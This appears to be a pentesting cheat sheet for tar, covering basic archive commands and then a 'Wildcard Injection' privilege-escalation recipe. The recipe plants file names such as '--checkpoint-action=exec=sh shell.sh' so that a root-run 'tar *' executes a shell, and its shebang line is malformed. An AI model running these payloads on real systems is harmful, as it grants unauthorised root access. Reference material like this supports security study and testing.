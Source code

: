 ```yaml
---
title: Tar
desc: Archives files and directories, or extracts them.
tags: [Linux, PrivEsc, SMB, SUID, Windows]
alts: [7zip, Bzip2, Gzip, Zip]
website:
render_with_liquid: false
---
```


## Create archives

```sh
tar -cf archive.tar sample.txt
tar -cf archive.tar sample1.txt sample2.txt
```

<br />

## Extract

```sh
tar -xf archive.tar
```

<br />

## View the content

```sh
tar -tf archive.tar
```

<br />

## Wildcard Injection

```sh
# Check if there are 'tar' command and wildcard(*) in the sudoers
sudo -l

(root) NOPASSWD: /opt/backups/backup.sh


# Move to the directory and check the content.
cd /opt/backups
cat backup.sh

tar cf backup.tar *


# Payloads
cd /opt/backups
echo '#/!bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1


# Check current user
whoami
```